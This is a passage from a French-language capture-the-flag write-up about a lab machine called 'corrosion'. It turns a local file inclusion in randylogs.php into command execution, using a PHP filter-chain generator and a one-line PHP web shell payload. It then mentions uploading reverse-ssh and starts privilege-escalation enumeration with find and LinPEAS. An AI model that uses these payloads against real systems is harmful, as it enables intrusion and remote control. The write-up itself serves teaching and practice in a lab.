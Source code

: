 Dans la pratique je peux générer mon payload de cette façon :  

```bash
python3 php_filter_chain_generator.py --chain '<?php system($_GET["c"]); ?>'
```

Et l'intégrer dans l'URL qui ressemblera à ceci :  

```plain
http://192.168.56.38/blog-post/archives/randylogs.php?file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|--- snip ---|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp&c=id
```

Je vous fait grâce de l'URL complète longue de 5860 octets. Heureusement suffisamment courte pour être acceptée par le serveur web.  

Après upload et exécution de [reverse-ssh](https://github.com/Fahrj/reverse-ssh) il est temps de fouiller un peu sur le système.  

On my way
---------

Je m'intéresse aussitôt à l'utilisateur *randy*, seul rempart visible avant *root*. Cet utilisateur n'a toutefois aucun dossier ni fichier world-readable...  

Dans les logs je retrouve effectivement le auth.log qui était lisible mais dont je n'ai pas eu besoin   

```plain
www-data@corrosion:/home$ find /var/log/ -type f -readable 2>/dev/null 
/var/log/alternatives.log
/var/log/wtmp
/var/log/bootstrap.log
/var/log/auth.log.1
/var/log/faillog
/var/log/fontconfig.log
/var/log/auth.log
/var/log/dpkg.log
/var/log/installer/telemetry
/var/log/installer/media-info
/var/log/installer/initial-status.gz
/var/log/gpu-manager.log
/var/log/lastlog
/var/log/apt/eipp.log.xz
/var/log/apt/history.log.1.gz
/var/log/apt/history.log
/var/log/dpkg.log.1
/var/log/alternatives.log.1
```

Les processus, les ports en écoute ou encore les binaires setuid n'ont rien qui sort de l'ordinaire... Je décide de sortir un [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) histoire d'automatiser l'énumération.  
